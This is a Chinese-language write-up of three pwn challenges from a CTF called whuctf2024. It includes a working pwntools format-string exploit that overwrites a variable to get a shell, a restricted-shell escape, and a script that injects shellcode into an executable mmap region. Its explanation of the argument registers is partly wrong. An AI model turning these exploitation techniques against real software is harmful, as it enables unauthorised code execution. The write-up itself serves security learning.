

# whuctf2024

by Maple

## ezformat-string

***格式化字符串漏洞实现任意地址写***

查看保护



64位，开启了NX，Canary，但是没有开启PIE，地址还是固定的，接下来看一下源码


可以看到需要我们通过格式化字符串漏洞将`magic`修改为`0x32107654BA98FEDC`，然后`getshell`

如果是32位的话我们可以直接`fmtstr_payload()`函数直接结束这道题目，但是64位程序就需要自己手动构造了

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)

magic = 0x00000000004CA2F0
num = 0x32107654ba98fedc

payload = f"%{0x3210}c%18$hn%{0x7654-0x3210}c%19$hn%{0xba98-0x7654}c%20$hn%{0xfedc-0xba98}c%21$hn".encode()
payload = payload.ljust(0x50,b'a')
payload+=p64(magic+6)+p64(magic+4)+p64(magic+2)+p64(magic)
p.sendline(payload)

p.interactive()
```

### 64位格式化字符串构造

1. 先确定偏移


可以看到这里的在格式化字符串后8个偏移

> **64位格式化字符串的原理：**
>
> - `printf`函数的前六个参数分别存放在`rdi`,`rsi`,`rcx`,`r8`,`r9`寄存器中，按照从右到做的顺序存放在栈中
> - `%n`可以将已经成功输出的字符个数写入对应的整形指针参数所指的变量

这道题中，我们要覆盖的地址为`0x00000000004CA2F0`，数据为`0x32107654BA98FEDC`，相当于

```c
0x4CA2F0	\0xFEDC
0x4CA2F2	\0xBA98
0x4CA2F4	\0x7654
0x4CA2F6	\0x3210
```

所以我们将这些两字节的数字依次写入

> 通过`%xc`输入x个长度的字节，通过`%i$hn`实现将输入的字节数存在第i个参数，减去前面的是为了保证累计输出正确的数值

接下来因为我是将这些数据存在18-21个参数的地址，所以要进行一定的填充，将后面`magic`的地址刚好在第18到21个参数处

我们输入的参数是8，所以填充10个参数，那么应该是`10*8=80=0x50`,一共填充0x50个数据，可以到达第18个参数

接下来就会将这些参数依次写入`magic`的地址里，就可以修改`magic`的指了

## ezshell

主要考察linux命令行

运行程序之后发现构造了shell，但是不允许`cat flag`指令，并且输出不被允许

但是我们可以发现有一个指令叫`showKey`，那么我们可以输入`sh`，这样就可以获得shell，然后在输入`exce 1>&0`将标准输出改为标准输入，以此`cat flag`

## notebook

菜单题，主要是考察mmap函数，将需要的东西输入好，直接写入shellcode就行

```python
from pwn import *
context.arch  = 'amd64'
p = process('./pwn')
p.sendlineafter('exit',b'1')
p.sendlineafter('id',b'1')
p.sendlineafter('addr: ',str(0x1337000))
p.sendlineafter('length: ',str(0x100))
p.sendlineafter('mode: ',str(7))
p.sendafter('note: ',asm(shellcraft.sh()).ljust(0x100,b'a'))
p.interactive()
```

